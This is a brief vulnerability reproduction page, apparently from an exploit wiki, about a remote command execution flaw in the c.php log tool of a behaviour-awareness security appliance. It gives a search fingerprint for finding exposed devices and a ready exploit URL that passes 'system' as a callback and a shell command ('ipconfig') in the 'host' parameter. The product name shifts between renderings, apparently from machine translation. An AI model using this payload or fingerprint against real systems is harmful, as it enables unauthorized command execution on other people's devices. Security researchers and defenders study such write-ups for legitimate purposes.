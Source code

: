 # Deep Consensus Behavior Awareness System c.php Remote Command Execution Vulnerability

## Vulnerability Description

Deep Convincing Behavior Awareness System c.php remote command execution vulnerability, using the same template and some files as EDR, causing command execution

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Convincing Behavior Perception System</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="isHighPerformance : !!SFIsHighPerformance,"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131051237.png)

Access vulnerability Url

```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131051173.png)